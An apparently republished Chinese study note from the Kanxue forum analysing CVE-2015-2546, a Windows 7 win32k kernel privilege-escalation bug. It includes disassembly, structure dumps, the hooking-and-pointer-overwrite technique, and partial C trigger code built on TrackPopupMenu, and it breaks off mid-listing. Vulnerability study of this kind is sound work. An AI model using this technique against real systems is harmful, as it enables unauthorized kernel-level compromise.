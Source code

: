 ```yaml
---
title: CVE-2015-2546提权漏洞学习笔记
url: https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458494923&idx=1&sn=1d157ebbe377348cad89a8367a9d4da4&chksm=b18e974186f91e5776bbaf02530f84af44781a7e26187dd4f8907cec6cab7ec2df8f5ee2f4ee&scene=58&subscene=0#rd
source: 看雪学院
date: 2023-02-20
fetch_date: 2025-10-04T07:33:32.228612
---
```


# CVE-2015-2546提权漏洞学习笔记

![cover_image](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8H927eQIguHibTpiaQzZ1q3LstuWiamHzp2SuYuQ6OZ78xFfR4dDmfELKfkrPfyllKnEXOCPiaTxKOUew/0?wx_fmt=jpeg)

# CVE-2015-2546提权漏洞学习笔记

1900

看雪学苑

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8H927eQIguHibTpiaQzZ1q3LsLAUh1Qiaub6IzOQDUu9s25O6nhPoScXNgXAHaHevSKIuOEgyJibfjLKg/640?wx_fmt=jpeg)

本文为看雪论坛优秀文章

看雪论坛作者ID：1900

#

```
一

前言
```

##

## **1.漏洞描述**

和CVE-2014-4113一样，这个漏洞也是因为调用xxxSendMessage函数的时候，没有对第一个参数进行合法性验证。用户可以通过一定的方法修改第一个参数的值，导致可以通过xxxSendMessageTimeout中的以下代码实现提权：

```
.text:BF8B94E8 loc_BF8B94E8:                           .text:BF8B94E8                 push    [ebp+Src].text:BF8B94EB                 push    dword ptr [ebp+UnicodeString].text:BF8B94EE                 push    ebx.text:BF8B94EF                 push    esi.text:BF8B94F0                 call    dword ptr [esi+60h]
```

与CVE-2014-4113不同的是，这次的漏洞在xxxHandleMenuMessage中调用的xxxMNMouseMove函数中。

##

## **2.实验环境**

* 操作系统：Win7 X86 sp1 专业版
* 编译器：Visual Studio 2017
* 调试器：IDA Pro，WinDbg

#

#

```
二

漏洞分析
```

要理解这个漏洞，需要对两个结构体有所了解，第一个是tagMENUWND，该结构体定义如下：

```
kd> dt tagMENUWNDwin32k!tagMENUWND   +0x000 head             : _THRDESKHEAD   +0x014 state            : Uint4B   +0x018 state2           : Uint4B   +0x01c ExStyle          : Uint4B   +0x020 style            : Uint4B   +0x024 hModule          : Ptr32 Void   +0x028 hMod16           : Uint2B   +0x02a fnid             : Uint2B   +0x02c spwndNext        : Ptr32 tagWND   +0x030 spwndPrev        : Ptr32 tagWND   +0x034 spwndParent      : Ptr32 tagWND   +0x038 spwndChild       : Ptr32 tagWND   +0x03c spwndOwner       : Ptr32 tagWND   +0x040 rcWindow         : tagRECT   +0x050 rcClient         : tagRECT   +0x060 lpfnWndProc      : Ptr32     long    +0x064 pcls             : Ptr32 tagCLS   +0x068 hrgnUpdate       : Ptr32 HRGN__   +0x06c ppropList        : Ptr32 tagPROPLIST   +0x070 pSBInfo          : Ptr32 tagSBINFO   +0x074 spmenuSys        : Ptr32 tagMENU   +0x078 spmenu           : Ptr32 tagMENU   +0x07c hrgnClip         : Ptr32 HRGN__   +0x080 hrgnNewFrame     : Ptr32 HRGN__   +0x084 strName          : _LARGE_UNICODE_STRING   +0x090 cbwndExtra       : Int4B   +0x094 spwndLastActive  : Ptr32 tagWND   +0x098 hImc             : Ptr32 HIMC__   +0x09c dwUserData       : Uint4B   +0x0a0 pActCtx          : Ptr32 _ACTIVATION_CONTEXT   +0x0a4 pTransform       : Ptr32 _D3DMATRIX   +0x0a8 spwndClipboardListenerNext : Ptr32 tagWND   +0x0ac ExStyle2         : Uint4B   +0x0b0 PopupMenu    : Ptr32 tagPOPUPMENU
```

其中最关键得是最后一个成员，也就是偏移0x0B0处得PopupMenu，该成员是一个tagPOPUPMENU结构体，结构体定义如下：

```
kd> dt tagPOPUPMENUwin32k!tagPOPUPMENU   +0x000 flags      : Uint4B   +0x004 spwndNotify     : Ptr32 tagWND   +0x008 spwndPopupMenu   : Ptr32 tagWND   +0x00c spwndNextPopup   : Ptr32 tagWND   +0x010 spwndPrevPopup   : Ptr32 tagWND   +0x014 spmenu           : Ptr32 tagMENU   +0x018 spmenuAlternate  : Ptr32 tagMENU   +0x01c spwndActivePopup  : Ptr32 tagWND   +0x020 ppopupmenuRoot   : Ptr32 tagPOPUPMENU   +0x024 ppmDelayedFree   : Ptr32 tagPOPUPMENU   +0x028 posSelectedItem  : Uint4B   +0x02c posDropped       : Uint4B
```

在xxxMNMouseMove函数中，首先会调用xxxMNFindWindowFromPoint函数获取返回值，而该函数的返回值是通过xxxSendMessage发送0x1EB的消息得到的。因此，对0x1EB的消息进行挂钩就可以修改此处的返回值，这里的返回值需要修改成tagMenuWnd(原因在下面)。为了触发漏洞，此处的返回值就不能是-1或-5，这样才能绕过2，3的验证，而由于4的验证，返回值还需要是一个合法的窗口的值，因为在IsWindowBeingDestroyed函数中，会对窗口的属性进行检查。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H4yqSxOmHFDodVVkgicYkhSQsoO44mIKSCwJBT2R2HFHHF4iaNqHBrEv66bQyy9Ydvqc2KBfAS7qUg/640?wx_fmt=png)

接下来，函数会将tagMenuWnd中偏移0xB0处保存的结构为tagPOPUPMENU的pTagMenuWnd取出，将它作为第一个参数调用xxxMNHideNextHierachy。可是在此之前，函数通过xxxSendMessage发送了两次消息，而且这两个函数的参数都是pTagMenuWnd。那么，用户就可以在通过挂钩的方式，在调用xxxMNHideNextHierachy函数之前对tagMenuWnd中的数据进行更改，也就是更改偏移0xB0处的pTagPopupMenu。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H4yqSxOmHFDodVVkgicYkhScXEAq4grKQ461orJwyIKRR7UZKBWdAhkjMADAlJw3N1MjnmDSRxLaA/640?wx_fmt=png)

这里IDA反编译的结果出了问题，两个xxxSendMessage函数发送的消息应当分别是0x1E5和0x1F0，因为它们的汇编代码分别如下：

```
.text:BF939517 loc_BF939517:                           .text:BF939517                 xor     edi, edi.text:BF939519                 push    edi            .text:BF93951A                 push    dword ptr [ebp+UnicodeString] .text:BF93951D                 push    1E5h            .text:BF939522                 push    esi             .text:BF939523                 call    _xxxSendMessage@16 ; xxxSendMessage(x,x,x,x).text:BF939528                 test    al, 10h.text:BF93952A                 jz      short loc_BF939583.text:BF93952C                 test    al, 3.text:BF93952E                 jnz     short loc_BF939583.text:BF939530                 push    edi             .text:BF939531                 push    edi             .text:BF939532                 push    1F0h            .text:BF939537                 push    esi           .text:BF939538                 call    _xxxSendMessage@16 ; xxxSendMessage(x,x,x,x).text:BF93953D                 test    eax, eax.text:BF93953F                 jnz     short loc_BF939583.text:BF939541                 push    ebx.text:BF939542                 call    _xxxMNHideNextHierarchy@4 .text:BF939547                 jmp     short loc_BF939583
```

在xxxMNHideNextHierarchy函数中，会将pTagPopupMenu偏移0x0C的spwndNextPopup作为第一个参数调用xxxSendMessage函数。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H4yqSxOmHFDodVVkgicYkhS1bQxrVpkB7TNnIIdep3Etwyt46vqzpTb1dMtDtOQjpr3GibMMUhcqng/640?wx_fmt=png)

虽然这里第八第九行代码验证了spwndNextPopup是否为0，但是，函数没有对pTagPopupmenu进行验证。因此，只要修改掉spwndNextPopup，让它不为0。

最终将导致代码xxSendMessageTimeout中的call dword ptr [esi + 0x60]就变成call dword ptr [spwndNextPopup + 0x60]，此时只要在相应的位置放入ShellCode函数地址，就可以实现提权。

#

#

```
三

漏洞利用
```

和CVE-2014-4113相同的是，该漏洞也需要通过TrackPopupMenu函数来触发，所以也需要以下的代码来创建相应的窗口。

```
HWND hWnd = NULL;WNDCLASS wc = { 0 };HMENU hMenu1 = NULL, hMenu2 = NULL;MENUITEMINFO Item1 = { 0 }, Item2 = { 0 }; memset(&wc, 0, sizeof(wc)); wc.hInstance = GetModuleHandle(NULL);wc.lpfnWndProc = WndProc_2015_2546;wc.lpszClassName = "1900"; if (!RegisterClassA(&wc)){    ShowError("RegisterClassA", GetLastError());    bRet = FALSE;    goto exit;} hWnd = CreateWindowA(wc.lpszClassName,               "",               WS_OVERLAPPEDWINDOW | WS_VISIBLE,               0,               0,               640,               480,               NULL,               NULL,               wc.hInstance,               NULL);if (!hWnd){    ShowError("CreateWindowEx", GetLastError());    bRet = FALSE;    goto exit;} hMenu1 = CreatePopupMenu();if (!hMenu1){    ShowError("CreatePopupMenu", GetLastError());    bRet = FALSE;    goto exit;} memset(&Item1, 0, sizeof(Item1));memset(&Item2, 0, sizeof(Item2)); Item1.cbSize = sizeof(Item1);Item1.fMask = MIIM_STRING;if (!InsertMenuItemA(hMenu1, 0, TRUE, &Item1)){    ShowError("InsertMenuItemA 1", GetLastError());    bRet = FALSE;    goto exit;} hMenu2 = CreatePopupMenu();if (!hMenu2){    ShowError("CreatePopupMenu 2", GetLastError());    bRet = FALSE;    goto exit;} Item2.fMask = MIIM_STRING | MIIM_SUBMENU;Item2.dwTypeData = "";Item2.cch = 1;Item2.hSubMenu = hMenu1;Item2.cbSize = sizeof(Item2); if (!InsertMenuItemA(hMenu2, 0, TRUE, &Item2)){    ShowError("InsertMenuItemA 2", GetLastError());    bRet = FALSE;    goto exit;} // 触发漏洞if (!TrackPopupMenu(hMenu2, 0, 0, 0, 0, hWnd, NULL)){    ShowError("TrackPopupMenu", GetLastError());    bRet = FALSE;    goto exit;}
```

不同的地方在于此时触发漏洞的位置是不同的，以下是部分代码：

```
int __stdcall xxxHandleMenuMessages(int a1, int a2, WCHAR UnicodeString){  uMsg = *(_DWORD *)(a1 + 4);  if ( uMsg > 0x104 )  {    if ( uMsg > 0x202 )    {    }    if ( uMsg == 0x202 )      goto LABEL_80;    v20 = uMsg - 0x105;         // uMsg - 0x105    if ( v20 )    {      v21 = v20 - 1;          // uMsg - 0x1                      if ( v21 )      {        v22 = v21 - 0x12;       // uMsg - 0x12        if ( !v22 )          return 1;        v23 = v22 - 0xE8;       // uMsg - 0xE8        if ( v23 )                  {          if ( v23 == 1 )          {               // CVE-2014-4113漏洞触发点            iRet = (_DWORD *)xxxMNFindWindo...
